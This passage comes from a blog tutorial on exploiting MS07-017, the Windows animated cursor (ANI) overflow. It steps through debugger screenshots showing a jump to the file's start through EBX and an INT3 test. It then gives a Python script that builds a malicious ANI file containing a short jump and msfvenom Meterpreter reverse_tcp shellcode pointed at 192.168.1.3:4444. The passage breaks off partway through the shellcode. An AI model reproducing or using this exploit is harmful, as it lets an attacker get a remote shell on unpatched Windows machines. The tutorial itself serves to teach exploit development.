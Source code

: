 <p align="center"><img src="/img/blog/2019/ms07-017/1*bbd49Dvx7ZJmZ2Zq1tjIEg.png" /></p>

And `EBX` looks interesting too. It holds the address of the beginning of our ANI file.

<p align="center"><img src="/img/blog/2019/ms07-017/1*9_kJbZGS1YYrvey5J_QveQ.png" /></p>

From Registers pane, we see `EBX` holds value `02BFF0EC` which point to value `02D50000`. In the dump, we can see the value at `02D50000`, it points to our ANI file. If we look at our file as instructions in Instructions pane, that "RIFF" would convert to weird (but safe) instructions.

Before proceeding further let's verify if our theory of jumping to beginning of our ANI file is working or not. We can safely replace the 4 bytes after "RIFF" with anything. So let's put an `INT3` instruction there. Here is how our ANI file would look like:  
(Code for creating this file is [here](https://gist.github.com/notsoshant/dc0d9dbf6f28ebb93e2a5ae700df1e68))

<p align="center"><img src="/img/blog/2019/ms07-017/1*M77NCcw-F8KtvhQ99jF6Qw.png" /></p>

The `EIP` will be overwritten with `700b`, which should point to `JMP EBX`. Let's put a breakpoint at this instruction to verify.

<p align="center"><img src="/img/blog/2019/ms07-017/1*v71INxB_KFnA5GF7OP7XsA.png" /></p>

<p align="center"><img src="/img/blog/2019/ms07-017/1*Ocw_VQXOP6fn-F09sP8DtQ.png" /></p>

As we can see here, we did hit our breakpoint at `JMP [EBX]` and then started *executing* our ANI file. But how and where do we put our payload? We can only use the 4 bytes after "RIFF", we cannot overwrite "ACON" and `anih` chunk after that. What we can do is place our payload after valid `anih` chunk and place a short jump in bytes after "RIFF" to jump to the payload. Currently, our ANI file is looking like this:

`RIFF + size + ACON + valid_anih + exploit_anih`

We can do something like this:

`RIFF + [JMP payload] + ACON + valid_anih + payload + exploit_anih`

Time for some venom! The code for generating our final ANI file:

```python
#!/usr/bin/env python3

import struct

riff = b"RIFF"
acon = b"ACON"

# Valid anih chunk
valid_anih  = b"\x61\x6e\x69\x68" + b"\x24\x00\x00\x00" + b"\x24\x00\x00\x00" + b"\x02\x00\x00\x00" # "anih" + size + HeaderSize + NumFrames
valid_anih += b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" # NumSteps + Width + Height + BitCount
valid_anih += b"\x00\x00\x00\x00" + b"\x00\x00\x00\x00" + b"\x01\x00\x00\x00"                       # NumPlanes + DisplayRate + Flags


# Chunk having our payload

# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f python -v payload
payload  = b""
payload += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
payload += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
payload += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
payload += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
payload += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
payload += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
payload += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
```